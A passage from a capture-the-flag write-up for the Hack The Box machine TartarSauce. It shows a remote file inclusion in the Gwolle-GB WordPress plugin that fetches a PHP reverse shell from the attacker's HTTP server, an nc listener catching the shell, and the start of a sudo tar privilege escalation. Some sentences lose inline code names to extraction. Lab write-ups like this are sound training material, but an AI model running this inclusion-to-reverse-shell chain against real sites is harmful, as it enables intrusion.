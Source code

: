 ### POC

To test this, I first started a python http server on my host, and then visited the site:

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/
    

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -
    

### Shell

I’ll grab from on Kali. There’s a couple lines you have to customize with your own IP and desired callback port. Then I’ll name it , and open a listener, and run that again:`php-reverse-shell.php``/usr/share/webshells/php``wp-load.php``nc``curl`

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/
    

    10.10.10.88 - - [28/May/2018 15:15:03] "GET /wp-load.php HTTP/1.0" 200 -
    

    root@kali:~/hackthebox/tartarsauce-10.10.10.88# nc -lnvp 1234
    listening on [any] 1234 ...
    connect to [10.10.15.99] from (UNKNOWN) [10.10.10.88] 43868
    Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 i686 i686 GNU/Linux
     15:15:43 up  2:35,  0 users,  load average: 0.15, 0.04, 0.07
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Privesc: www-data –> onuma

As , we can’t get into the lone user directory:`www-data`

    www-data@TartarSauce:/home$ ls
    onuma
    www-data@TartarSauce:/home$ cd onuma/
    bash: cd: onuma/: Permission denied
    

### sudo tar

Notice that user can run with no password for :`www-data``sudo``/bin/tar`

    www-data@TartarSauce:/dev/shm$ sudo -l
    Matching Defaults entries for www-data on TartarSauce:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    